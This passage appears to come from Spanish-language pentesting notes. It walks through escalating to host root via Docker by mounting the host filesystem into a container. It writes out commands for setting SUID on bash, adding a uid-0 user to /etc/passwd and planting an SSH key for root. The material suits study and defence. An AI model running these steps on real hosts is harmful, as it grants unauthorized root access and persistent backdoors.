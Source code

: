 ```bash
# Descargar imagen de Ubuntu (o usar cualquier imagen disponible)
docker pull ubuntu:latest

# Ver imágenes disponibles
docker images
```

#### 3. Crear contenedor con montaje peligroso

```bash
# Montar el sistema de archivos completo del host
docker run --rm -dit -v /:/mnt/root --name priv ubuntu

# Explicación de parámetros:
# --rm: Eliminar contenedor al salir
# -dit: Detached, interactive, pseudo-TTY
# -v /:/mnt/root: Montar raíz del host en /mnt/root del contenedor
# --name priv: Nombrar el contenedor como 'priv'
```

> [!example] ¿Qué hace el montaje?
> El parámetro `-v /:/mnt/root` monta **todo el sistema de archivos del host** dentro del contenedor en `/mnt/root`. Esto significa que:
> - Puedes acceder a **cualquier archivo** del sistema host
> - Los cambios se reflejan **directamente** en el sistema host
> - Puedes modificar archivos críticos como `/etc/passwd`, `/etc/shadow`
> - Puedes asignar **permisos SUID** a binarios

#### 4. Acceder al contenedor y escalar privilegios

```bash
# Entrar al contenedor como root
docker exec -it priv bash

# Navegar al sistema de archivos del host
cd /mnt/root

# Ahora estás en la raíz del sistema host con privilegios de root
ls -la

# Opciones de escalada:
# 1. Modificar /etc/passwd para agregar usuario root
# 2. Asignar SUID a bash
# 3. Agregar clave SSH a root
# 4. Modificar sudoers
```

#### Técnicas específicas de escalada:

```bash
# Método 1: Asignar SUID a bash
chmod u+s /mnt/root/bin/bash

# Salir del contenedor y ejecutar bash con privilegios
exit
/bin/bash -p  # El flag -p mantiene privilegios

# Método 2: Crear usuario root adicional
echo 'hacker:$6$xyz$hashedpassword:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd

# Método 3: Agregar clave SSH
mkdir -p /mnt/root/root/.ssh
echo 'tu_clave_publica' >> /mnt/root/root/.ssh/authorized_keys
chmod 600 /mnt/root/root/.ssh/authorized_keys
chmod 700 /mnt/root/root/.ssh
```
